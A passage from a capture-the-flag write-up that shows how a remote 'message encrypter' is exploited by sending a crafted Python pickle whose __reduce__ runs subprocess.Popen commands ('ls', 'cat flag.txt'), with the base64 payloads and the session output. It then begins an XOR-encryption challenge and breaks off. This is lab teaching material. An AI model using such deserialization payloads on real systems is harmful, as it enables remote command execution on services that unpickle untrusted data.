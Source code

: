     :::text
    $ nc cha.hackpack.club 41704
    [*] Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
    [*] We use patented technology that only we have access to in order to safely encrypt your data
    [*] Please use this tool to encrypt/decrypt messages

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 2
    Please enter the encrypted string here: gASVIwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwCbHOUhZSFlFKULg==
    [+] Message decrypted: <subprocess.Popen object at 0x7f2b6d9a9550>

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > app.py
    flag.txt

We generate a new pickle to read the flag:

    :::text
    >>> class RunBinSh(object):
    ...   def __reduce__(self):
    ...     return (subprocess.Popen, (('cat', 'flag.txt',),))
    ...
    >>> print(base64.b64encode(pickle.dumps(RunBinSh())))
    b'gASVLwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwIZmxhZy50eHSUhpSFlFKULg=='

    Please enter the encrypted string here: gASVLwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwIZmxhZy50eHSUhpSFlFKULg==
    [+] Message decrypted: <subprocess.Popen object at 0x7f2b6d9a4438>

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > flag{n3v3R_u$e_p!ckLe_w_uNtru$t3d_d4t4}

## Hiding in Plaintext

> Connect to CryptoKid's Mall of MirrXors at cha.hackpack.club:41715 to try your hand at guessing the flag!
> (Mr. Vernam says CryptoKid stole his ideas, but Miss Venona says he stole them...badly...)

We understand that the service is doing XOR encryption. We connect to it and
thee that there is the encrypted flag and that we can encrypt anything we want.

    :::text
    $ nc cha.hackpack.club 41715
    Welcome to CryptoKid's Hall of MirrXors!
    Here is BASE64(ENC(FLAG, SESSION_KEY)) => bwHJ1+IUTxTLWyYalXkyC3m5B4lRj+4BerJ3S/WxWj4kKbbqdx/M6nh8bCE+C0ZjJJc9hKHMPSTwUQ==
    Wanna guess what FLAG is? qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
    Here is BASE64(ENC(GUESS, SESSION_KEY)) => eBzZwegLDhGXXj9YyWVzCXzlR5VQjKwDePJwCamwRw9kNrOofhqQ7Xxhc30tD0M/Io582LP9PmbyXXgc2cHoCw4Rl14/WMllcwl85UeVUIysA3jy
    How'd you do??
